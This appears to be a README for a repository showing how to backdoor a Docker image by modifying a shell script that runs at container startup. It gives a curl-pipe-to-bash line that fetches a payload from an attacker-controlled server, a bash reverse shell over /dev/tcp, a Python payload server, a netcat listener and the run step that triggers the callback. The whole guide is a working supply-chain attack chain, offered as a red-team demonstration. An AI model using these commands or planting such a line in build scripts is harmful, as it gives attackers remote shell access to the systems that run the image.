 # Backdoored shell script in container image

## Scenario

You have the acccess to modify docker images either through source that contains a shell script called in the Dockerfile or through an image registry. The shell script that you can modify runs on startup (a pretty common scenario)

## Building the image

First you need to build the image. This is emulating the process that will take place whenever the target image is built. Based on our scenario the victim will either be pulling in the modified source shell script or you replaced the image in the registry after updating the shell script.

The line that ends up backdooring the image will be the following:

```curl -s http://<ip_address>:8000/payload.txt | bash```

### Build the image

* Update line 4 with the ip address of your payload server

```docker build -t backdoor .```

## Setting up the payload server

Next you need to setup the server that will host the file containing your payload. The payload can be anything you want to execute when the container is started. In this example we will use a reverse shell that calls back to a netcat server. I'm using python SimpleHTTPServer to host the file but this can be setup other ways as long as the file can be accessed.

### Create the payload file

```touch payload.txt```


### Add your payload (in this example the reverse shell)

```nohup bash -c bash -i >& /dev/tcp/<ip_address>/8080 0>&1```

* This payload example can be found in payload.txt
* Update the ip address and port with the values for your netcat server

### Starts a server on port 8000 by default

```python -m SimpleHTTPServer```

## Start your Netcat handler

This step is only required if you choose to make your payload a reverse shell. This step will start a netcat server that will handle the callback from your reverse shell.

### Start the netcat listener

```netcat lkvp 8080```

## Start your container

This step emulates what will occur when the backdoored image it deployed and the container starts. The script in the case will only execute once so what you choose to execute should be taken into consideration.

### Start the Docker container (execute the payload)

```docker run -it backdoor```

If everything goes according to plan you should get a callback similar to the this [tweet](https://twitter.com/sneakerhax/status/1416870516976099330?s=20)
